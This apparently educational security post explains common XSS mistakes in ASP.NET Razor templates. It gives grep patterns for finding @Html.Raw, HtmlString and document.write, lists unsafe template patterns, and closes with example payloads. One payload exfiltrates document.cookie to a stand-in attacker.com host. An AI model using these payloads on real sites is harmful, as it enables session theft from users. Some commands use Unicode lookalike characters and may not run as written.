 # .NET_Razor

🔥 Common XSS causes in .NET (Razor) 🔥

A common way to return dynamic content to the web application user is by using HTML templates. Most applications built with ASP.NET model-view-controller (MVC) framework rely on such functionality heavily because .NET offers a convenient templating engine called Razor. However, there are caveats to using some of its functions, and if the developer doesn’t know them, it is very easy to introduce an XSS or an HTML injection! 

In this post we list common ways of misusing such functionality in C#, and explain how to look for them. In HTML templates, special tags are used as placeholders to describe how the page should look. When a template is rendered, tags are replaced with the real data. Before returning the page to the user, the templating engine substitutes placeholders with real data, and escapes it so as not to break the markup. However, sometimes it is tempting to disable automatic escaping because the text returned from the database may contain HTML that the developers want to preserve. Naturally, if user-controlled data is not escaped, this leads to numerous vulnerabilities.

To find such misconfigurations:

1. Look for the @Html.Raw function usages within the Views folder:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "\\@𝙷𝚝𝚖𝚕\\.𝚁𝚊𝚠\\("
```
2. Look for the HtmlString function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝙷𝚝𝚖𝚕𝚂𝚝𝚛𝚒𝚗𝚐\("
```
3. Look for the document.write JS function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚍𝚘𝚌𝚞𝚖𝚎𝚗𝚝\.𝚠𝚛𝚒𝚝𝚎\("
```
4. Look for the API endpoints which return the "text/html" and "image/svg+xml" content-types, they can be declared as vulnerable because there is a context for a XSS: 
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚝𝚎𝚡𝚝/𝚑𝚝𝚖𝚕|𝚒𝚖𝚊𝚐𝚎/𝚜𝚟𝚐+𝚡𝚖𝚕"
```
5. Check all HTML tag attributes without quotes around template attribute values. This tip will work even when HTML escaping is on! 
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=@𝚄𝚜𝚎𝚛𝙸𝚗𝚙𝚞𝚝>
```
Here Razor will HTML-encode quotes and angular brackets ('"<>), but not spaces! Since HTML is liberal about (not) using quotes in tags, in this example an attacker can easily add new attributes separated by spaces, and sometimes it is just enough for exploitation (e.g. <𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>). 

6. Look for user-controlled data that is directly concatenated into script tags, event attributes, or dynamic URLs in anchor tags, without proper escaping or validation.

```
<script>
    var searchQuery = "@Model.SearchQuery";
    // ...
</script>
<a href="/search?q=@Model.SearchQuery">Search for "@Model.SearchQuery"</a>
```

7. Check for dynamic content that is being rendered without proper encoding, such as user-controlled data in attributes or the text of the HTML element itself.

```
<div>@Model.UserInput</div>
<input type="text" value="@Model.UserInput">
```

8. Look for places where user-controlled data is being used to build dynamic JavaScript code, particularly when it is being used to build an object literal.
```
<script>
    var obj = {
        name: "@Model.UserName",
        age: @Model.UserAge
    };
    // ...
</script>
```

9. Check for places where user-controlled data is being used to build dynamic CSS code, particularly when it is being used to build a style attribute.
```
<div style="background-color: @Model.BackgroundColor;"></div>
```

10. Look for places where user-controlled data is being used to build dynamic HTML comments.
```
<!-- User's comment: @Model.UserComment -->
```

# Exploiting

- Query to exploit @Html.Raw vulnerability, if the code includes the following line:
Code example: @Html.Raw(Model.Name)
```
<script>alert('XSS attack');</script>
```
- Query to exploit HtmlString vulnerability:
Code example: @HtmlString("<img src='" + imageUrl + "'>")
```
<img src="javascript:alert('XSS attack')">
```
- Query to exploit document.write vulnerability:
Code example: <script>document.write("<p>" + userContent + "</p>");</script>
```
<script>document.write("<img src='http://attacker.com/steal-cookie.php?cookie=" + document.cookie + "'>");</script>
```
- Query to exploit "text/html" and "image/svg+xml" content-type vulnerabilities:
If the code includes an API endpoint that returns an SVG image and/or other content in that format, you can inject the code above as SVG image content and/or other content to attack.
```
<svg onload=alert('XSS attack')>
```
Query to exploit attribute value without quotes vulnerability:
var @imageUrl = http://brutelogic.com.br/poc.svg
<img src=\\@imageUrl>
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>
```
